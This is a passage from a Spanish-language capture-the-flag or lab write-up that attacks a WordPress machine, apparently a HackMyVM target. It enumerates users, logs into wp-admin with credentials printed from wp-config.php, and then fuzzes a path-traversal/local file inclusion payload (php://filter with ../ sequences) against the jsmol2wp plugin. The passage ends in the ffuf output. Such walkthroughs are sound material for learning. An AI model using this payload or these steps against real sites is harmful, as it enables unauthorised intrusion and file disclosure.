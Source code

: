 Vemos varios usuarios en el sistema:

```
think (1)
xavi (2)
diego (3)
gege (4)
```

Viendo respecto al `ID` que tiene cada uno, podemos saber que el primero el haberse creado es `think` por lo que vamos a probar fuerza bruta con dicho usuario.

Si probamos a conectarnos mediante `ssh` para probar, veremos lo siguiente:

```shell
ssh think@<IP>
```

Info:

```
think@192.168.1.169: Permission denied (publickey).
```

Vemos que requiere de una clave `PEM` por lo que vamos a probar a leer una `id_rsa` de algun usuario, pero veremos que no podremos, por lo que vamos a utilizar la anterior informacion que obtuvimos con el archivo `wp-config.php` para intentar iniciar sesion en `wordpress`.

```
URL = http://www.smol.hmv/wp-admin/
```

Y metemos como credenciales lo siguiente:

```
User: wpuser
Pass: kbLSF2Vop#lw3rjDZ629*Z%G
```

Veremos que si funciona y estaremos dentro, pero no somos `administradores`, por lo que vamos a realizar `fuzzing` para ver que `plugins` hay y poder leerlos.

```shell
ffuf -ic -c -u 'http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../FUZZ' -w ../Downloads/wp-plugins.fuzz.txt -fs 2
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../FUZZ
 :: Wordlist         : FUZZ: /home/kali/Downloads/wp-plugins.fuzz.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2
```